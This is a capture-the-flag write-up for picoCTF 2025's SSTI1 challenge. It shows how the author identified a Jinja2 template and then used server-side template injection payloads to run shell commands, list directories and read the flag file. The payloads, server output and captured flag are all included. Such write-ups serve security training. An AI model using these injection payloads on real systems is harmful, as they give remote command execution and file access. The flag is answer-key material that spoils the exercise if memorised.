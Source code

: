 ```yaml
---
title: SSTI1
category: Web Exploitation 
difficulty: Easy
tags: [SSTI, Jinja2]
platform: picoCTF
year: 2025
---
```


# SSTI1 (2025)

## 📝 Description
I made a cool website where you can announce whatever you want! Try it out!
Templating seems to be a popular approach for web applications.

---

## 🔍 Initial Recon

|Item	|Notes|
|:-------|:---------|
|Files provided|None in the challenge page (server-side files discovered later via SSTI).|
|Services / Ports|	Web application (HTTP) — form that renders user input into a template.|
|Hints given|	None explicit; description suggests templating.|
|Observed behavior|	Input is evaluated (template engine evaluates expressions). Example: {{7*7}} → 49.|
---

## 🛠️ Approach
- ### Step 1: Figuring out which type of template is being used

Found a couple of phrases to try to narrow down the list and as `{{7*'7'}}` gave `7777777` as output, concluded that it's likely a **Jinja2** template.


- ### Step 2: List root files/folders:
```jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la /').read() }}
````

Output (server response — directory listing):

```
total 0
drwxr-xr-x 1 root root 23 Aug 19 11:22 .
drwxr-xr-x 1 root root 23 Aug 19 11:22 ..
-rwxr-xr-x 1 root root 0 Aug 19 11:22 .dockerenv
lrwxrwxrwx 1 root root 7 Oct  6  2021 bin -> usr/bin
drwxr-xr-x 2 root root 6 Apr 15 2020 boot
drwxr-xr-x 1 root root 25 Aug 19 11:22 challenge
drwxr-xr-x 5 root root 340 Aug 19 11:22 dev
drwxr-xr-x 1 root root 66 Aug 19 11:22 etc
drwxr-xr-x 2 root root 6 Apr 15 2020 home
lrwxrwxrwx 1 root root 7 Oct  6  2021 lib -> usr/lib
lrwxrwxrwx 1 root root 9 Oct  6  2021 lib32 -> usr/lib32
lrwxrwxrwx 1 root root 9 Oct  6  2021 lib64 -> usr/lib64
lrwxrwxrwx 1 root root 10 Oct 6  2021 libx32 -> usr/libx32
drwxr-xr-x 2 root root 6 Oct 6  2021 media
drwxr-xr-x 2 root root 6 Oct 6  2021 mnt
drwxr-xr-x 2 root root 6 Oct 6  2021 opt
dr-xr-xr-x 252 nobody nogroup 0 Aug 19 11:22 proc
drwx------ 1 root root 20 Mar  6  19:44 root
drwxr-xr-x 5 root root 58 Oct 6  2021 run
lrwxrwxrwx 1 root root 8 Oct 6  2021 sbin -> usr/sbin
drwxr-xr-x 2 root root 6 Oct 6  2021 srv
dr-xr-xr-x 13 nobody nogroup 0 Aug 19 11:22 sys
drwxrwxrwt 1 root root 6 Mar 6  19:44 tmp
drwxr-xr-x 1 root root 19 Oct 6  2021 usr
drwxr-xr-x 1 root root 41 Oct 6  2021 var
```

* ### Step 3: Found a folder named challenge in the output and listed the files in it using:

```jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').listdir('/challenge') }}
```

Output (Python list):

```text
['app.py', '__pycache__', 'flag', 'requirements.txt']
```

* ### Step 4: Opened the flag file using:

```jinja
{{ self.__init__.__globals__.__builtins__.open('/challenge/flag').read() }}
```

Output:

```text
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}
```

---

## Flag

**`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}`**


